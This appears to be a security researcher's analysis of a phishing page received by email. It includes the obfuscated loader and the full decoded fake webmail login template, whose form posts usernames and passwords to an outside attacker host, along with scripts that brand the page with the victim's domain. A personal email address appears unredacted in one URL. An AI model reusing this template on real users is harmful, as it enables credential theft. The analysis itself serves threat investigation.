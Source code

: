 ### Introduction

Today I received the following mail:

https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.xxxx@gmail.com&domain=google.com

This is a phishing website which is controlled by the host https://bremerrapidest.xyz

Here is the analysis conducted on this phishing url.

### Investigation

1) Source code of https://hjvfyktdfky56kdrt5jt5ej5.web.app/?emailtoken=t.defise@gmail.com&domain=google.com

It seems that:
- The content of the page has been encoded in ASCII
- The content show a reference to [@therealelyayo](https://github.com/therealelyayo) which is an account that host several fork of phishing tools such as:
  - [HiddenEye-Legacy](https://github.com/DarkSecDevelopers/HiddenEye-Legacy): 2K Starts & 901 Forks
  - [AdvPhishing](https://github.com/Ignitetch/AdvPhishing): 528 Stars & 261 Forks
  - [Recreator-Phishing](https://github.com/AngelSecurityTeam/Recreator-Phishing): 109 Stars & 39 Forks
  - [BlackPhish](https://github.com/iinc0gnit0/BlackPhish)

2) Decoding of the phishing page

This has been encoded using ASCII

- Raw encoded page:
```html
<Script Language='Javascript'>
<!-- HTML Encryption provided by therealelyayo -->
<!--
document.write(unescape('%3C%21%44%4F%43%54........%74%6D%6C%3E'));
//-->
</Script>
```
- Decoded page:
```html
<!DOCTYPE html>
<!--[if IE 8 ]> <html class="ie ie8" lang="en"> <![endif]-->
<!--[if IE 9 ]> <html class="ie ie9" lang="en"> <![endif]-->
<!--[if (gte IE 10)|!(IE)]><!-->
<html lang="en">
<!--<![endif]-->

<head>
    <meta charset="utf-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width,user-scalable=no">
    <meta name="domain-suggester-prompt" content="Did you mean {{corrected_email}}?">
    <meta name="api-uri" content="https://api.squareup.com">
    <meta name="max-idle-minutes" content="30">
    <meta name="referrer" content="origin">
    <link href="https://gresrty.imfast.io/login.css" media="screen" rel="stylesheet">
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> <img id="imageBox" src="" alt="" width="40" height="40">
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
        <div class="field password-field fade-label"> <label class="text" for="password">Password</label> <input class="text" id="password" name="password" size="20" autocomplete="off" onkeyup="checkForm()" type="password" value="">
            <div class="form-group"><input type=hidden id="address" name=address size=5 value=""><input type=hidden id="address2" name=type size=5 value=""> </div>
            <div id="captcha" class="g-recaptcha submit-button"></div>
            <div class="submit-button full-length-submit-button"> <button id="sign-in-button" type="submit" class="btn btn-blue track-event" disabled="disabled"> <span class="button-text">Sign In</span> </button> </div>
    </form>
</div>
</div>
<script>
    function checkForm() {
        var name = document.getElementById("password").value;
        var cansubmit = (name.length > 3);
        document.getElementById("sign-in-button").disabled = !cansubmit;
    };
</script>
<script>
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const email = urlParams.get('emailtoken');
    const type = urlParams.get('domain');
    const address = urlParams.get('domain');
    const image = urlParams.get('domain');
    document.getElementById('username').value = email;
    document.getElementById('address').value = type;
    document.getElementById('address2').value = address;
    document.getElementById('image2').value = image;
    document.getElementById("demo").innerHTML = 5 + 6;
    var str = email;
    var str1 = type;
    var str2 = address;
    var str3 = image;
    str = str.substring(str.indexOf("@") + 1);
    document.getElementById('hlight').innerHTML = str;
</script>
</body>

</html>
```

2) Analysis of the decoded page (Social Engineering)

As document "*// Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.*"
The website get the parameter "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.xxxx@gmail.com&domain=google.com" **domain=google.com**, then do a lookup for it on google in order to:
  - Include the icon within the *<link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">*
  (See variable **imageBoxx**)
  - Include the icon within form (Visually)
  (See variable **imageBox**)

```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> <img id="imageBox" src="" alt="" width="40" height="40">

```

It also add the domain to the page within the form (visually) by doing the following, just after the line above 

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

So for instance, if I navigate to "https://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.defise@gmail.com&domain=nfl.com", with **domain=nfl.com**, it will show me the logo of the National Football League.

3) Analysis of the form

As you can seen the POST is performed towards another domain "https://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```

After enumerating the folder files & folder available on this websites, I found the following page https://bremerrapidest[.]xyz/admin/, which should, according to me also be classified as malicious

![](website.PNG)

At the moment, this website is only seen as malicious by one engine on VirusTotal

![](vt_1.PNG)

And on the otherside, the phish is not detected by any engine on VirusTotal

![](vt_2.PNG)


